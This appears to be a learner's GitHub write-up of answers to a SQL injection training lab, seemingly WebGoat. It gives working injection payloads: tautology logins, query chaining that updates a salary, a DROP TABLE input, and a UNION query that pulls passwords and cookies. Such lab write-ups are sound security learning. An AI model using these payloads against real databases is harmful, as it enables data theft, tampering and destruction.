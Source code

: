 ## SQL injection (introduction)
### wehave to write query to select specific user
i used user id from previous page
```
SELECT * FROM employees WHERE userid=96134
```
### create table
```
ALTER TABLE employees ADD phone VARCHAR(20)
```

### sql injection with options
we need to make query like
```
 SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'
 ```
### numeric SQL injection
Login_count is to be integer <br/>
we put Login_count=1 and userid = 1 OR 1=1
query become
```
SELECT * From user_data WHERE Login_Count = 1 and userid= 1 OR 1=1
```
### String SQL injection
we put lastname = ' OR 1=1 OR ''= '<br />
auth_tan = ' OR 1=1-- <br />
Query becomes
```
SELECT * FROM employees WHERE last_name = '' OR 1=1 OR ''= '' AND auth_tan = '' OR 1=1--'
```

### Query chaining
we just chain an update with our query
```
employee_name = 'Smith'
auth_tan = 3SL99A' ;UPDATE employees SET salary=100000 WHERE last_name='Smith'--
```

### Compromising Availability 

```
search = ';DROP TABLE access_log
```

## SQL injection Advanced
###Pulling data from other tables
Can be done using UNION
```
dafdfdf' UNION select userid, user_name as first_name,null as last_name,password as cc_number,null as cc_type,cookie,null as login_count FROM user_system_data --
```
OR new query
```
sdsd';SELECT * FROM user_system_data --
```
